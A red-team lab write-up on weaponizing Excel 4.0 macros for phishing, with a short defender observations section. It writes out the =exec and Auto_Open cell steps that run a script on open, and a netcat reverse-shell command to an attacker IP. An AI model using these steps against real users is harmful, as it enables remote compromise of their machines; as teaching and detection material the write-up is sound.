





# Phishing: XLM / Macro 4.0

This lab is based on the research performed by [Stan Hegt from Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/).

## Weaponization

A Microsoft Excel Spreadsheet can be weaponized by firstly inserting a new sheet of type "MS Execel 4.0 Macro":



We can then execute command by typing into the cells:

```text
=exec("c:\shell.cmd")
=halt()
```

As usual, the contents of shell.cmd is a simple netcat reverse shell:


```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```


Note how we need to rename the `A1` cell to `Auto_Open` if we want the Macros to fire off once the document is opened:







## Execution

Opening the document and enabling Macros pops a reverse shell:



Note that XLM Macros allows using Win32 APIs, hence shellcode injection is also possible. See the original research link below for more info.

## Observations

As usual, look for any suspicious children originating from under the Excel.exe:



Having a quick look at the file with a hex editor, we can see a suspicious string `shell.cmd` immediately, which is of course good news for defenders:




## References



